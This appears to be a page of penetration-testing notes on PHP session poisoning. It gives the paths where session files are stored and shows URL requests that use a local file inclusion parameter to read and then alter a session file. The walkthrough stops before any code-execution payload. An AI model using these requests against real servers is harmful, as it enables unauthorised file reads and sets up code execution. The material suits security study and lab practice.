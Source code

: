 ## **PHP Session Poisoning**

### Paths where sessions are located

**Linux**

`/var/lib/php/sessions/`  

**Windows**

`C:\Windows\Temp\`

Note: The name of the file that contains our user's data matches the name of our `PHPSESSID` cookie with the `sess_` prefix. For example, if the `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`, then its location on disk would be `/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3`.

### 1.- Check our PHPSESSID Cookie

first check if we have a `PHPSESSID` cookie set to our session

### 2.- Load the session path using LFI

```bash
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

![lfi_image3.png](../Images/lfi_image3.png)

For example: The session file contains two values: `page`, which shows the selected language page, and `preference`, which shows the selected language. The `preference` value is not under our control, as we did not specify it anywhere and must be automatically specified. However, the `page` value is under our control, as we can control it through the `?language=` parameter.

### 3.- Change the value of a parameter that you can control

```bash
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

### 4.- Load the session path using LFI and check the changes

```bash
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

![lfi_image4.png](../Images/lfi_image4.png)
